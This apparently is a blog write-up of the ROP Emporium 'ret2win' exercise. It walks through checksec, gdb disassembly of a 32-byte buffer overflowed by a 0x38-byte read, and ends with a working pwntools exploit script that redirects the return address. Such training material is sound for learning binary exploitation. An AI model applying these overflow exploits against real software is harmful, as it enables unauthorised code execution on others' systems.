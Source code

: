 ```yaml
---
title: "RopEmporium - ret2win"
date: 2021-12-20T14:27:14Z
draft: false
authors: ["Thuri"]
tags: ["rop", "RopEmporium"]
summary: "This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to."
toc:
    enable: true
    auto: false

code:
    maxShownLines: 100
---
```


> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of the first challenge is to call the **ret2win** function.

After downloading the binary, the first is to check binary protection is enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like `shellcode`. Toe analyze the behavior of the program we will use `gdb`. gdb is a tool that enables one to inspect the behavior of binaries at runtime.

```asm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb)
```

The binary has various functions as shown in the output above. For initial analysis, we start at the `main` function which is the entry point of our program.

```asm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret
End of assembler dump.
(gdb)
```

From the initial analysis of the main function, main call an interesting function called **pwnme**. Next is to disassemble **pwnme** function to understand the behavior.

```asm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave
   0x0000000000400755 <+109>:	ret
End of assembler dump.
```

From an analysis of the above assembly code, we fill a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of the base pointer as shown in the stack diagram below.

![Stack Buffer](/ropemporium/stack.png)

Next function is **read** function, which reads from the standard input file descriptor and stores it in the specified buffer. From the disassembled code we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```

Because we are reading more than what the buffer can hold, we corrupt the adjacent memory regions, therefore, causing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image above is to fill the buffer, overwrite the `rbp`` register and control the return address with **ret2win** function address.

The exploit code for this ret2win function is,

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above script we get a correct flag.

```bash
vx@archie:ret2win$ python3 x.py
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
